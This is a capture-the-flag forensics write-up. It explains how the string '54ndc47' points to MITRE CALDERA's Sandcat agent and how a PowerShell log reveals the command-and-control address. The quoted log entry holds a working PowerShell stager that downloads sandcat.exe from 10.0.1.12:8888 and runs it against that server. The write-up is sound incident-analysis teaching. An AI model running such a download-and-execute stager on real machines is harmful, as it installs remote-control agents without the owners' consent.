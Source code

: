 #### Q30) After pulling an all-nighter on the analysis of this system, you discover the following string in memory of the compromised host: 54ndc47. Previous experience tells you this means there is a very specific “infection” on the host which would've allowed the attackers to remotely run the powershell commands on it. What was the IP address where this potentially malicious piece of software was connecting back to (C2 Address)? Give just the IP address as your answer.

From this question, there is a relevant information to pick up, I hope you did notice it. It is the **string in memory of the compromised host**: `54ndc47`. What is this string, where does it come from ? If it was used during the attack, maybe it can lead me to a known pattern ? Let's Google it.

From that search, I found [this GitHub repository from MITRE](https://github.com/mitre/sandcat) which explains that it is a `CALDERA` plugin. I have more elements, I can refine my research, let's go! Then, I landed in [this documentation](https://caldera.readthedocs.io/en/latest/How-to-Build-Agents.html) which matches DikBek's attack pattern. I understood that the attacker used that `caldera` agent. Finally, I search with this keyword into PowerShell logs and got this entry:

```xml
<EventRecordID>22483</EventRecordID>
<Channel>Microsoft-Windows-PowerShell/Operational</Channel>
<Computer>win-host-3742319</Computer>
<Data Name="ScriptBlockText">
$url="http://10.0.1.12:8888/file/download"
$wc=New-Object System.Net.WebClient
$wc.Headers.add("platform","windows")
$wc.Headers.add("file","sandcat.go")
$output="C:\Users\Public\sandcat.exe"
$wc.DownloadFile($url,$output)
C:\Users\Public\sandcat.exe -server http://10.0.1.12:8888 -group my_group -v
</Data>
<Data Name="Path">C:\caldera_agent.ps1</Data>
```

And final flag!